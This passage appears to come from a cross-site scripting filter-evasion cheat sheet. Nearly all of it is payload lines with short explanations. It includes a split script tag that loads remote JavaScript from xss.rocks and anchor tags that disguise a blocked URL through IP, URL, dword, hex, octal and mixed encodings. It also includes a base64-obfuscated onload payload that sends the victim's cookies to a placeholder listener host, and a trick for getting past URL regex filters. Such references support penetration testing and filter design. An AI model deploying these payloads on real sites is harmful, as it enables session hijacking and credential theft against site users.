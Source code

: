 `<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>`

## URL string evasion

Assuming "<http://www.google.com/>" is pro grammatically disallowed:

### IP versus hostname

`<A HREF="http://66.102.7.147/">XSS</A>`

### URL encoding

`<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>`

### Dword encoding

(Note: there are other of variations of Dword encoding - see the IP
Obfuscation calculator below for more details):

`<A HREF="http://1113982867/">XSS</A>`

### Hex encoding

The total size of each number allowed is somewhere in the neighborhood
of 240 total characters as you can see on the second digit, and since
the hex number is between 0 and F the leading zero on the third hex
quotet is not required):

`<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>`

### Octal encoding

Again padding is allowed, although you must keep it above 4 total
characters per class - as in class A, class B, etc...:

`<A HREF="http://0102.0146.0007.00000223/">XSS</A>`

### Base64 encoding

`<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">`

### Mixed encoding

Let's mix and match base encoding and throw in some tabs and newlines -
why browsers allow this, I'll never know). The tabs and newlines only
work if this is encapsulated with quotes:

`<A HREF="h`  
`tt  p://6	6.000146.0x7.147/">XSS</A>`

### Protocol resolution bypass

(// translates to <http://> which saves a few more bytes). This is
really handy when space is an issue too (two less characters can go a
long way) and can easily bypass regex like "(ht|f)tp(s)?://" (thanks to
Ozh for part of this one). You can also change the "//" to "\\\\". You
do need to keep the slashes in place, however, otherwise this will be
interpreted as a relative path URL.
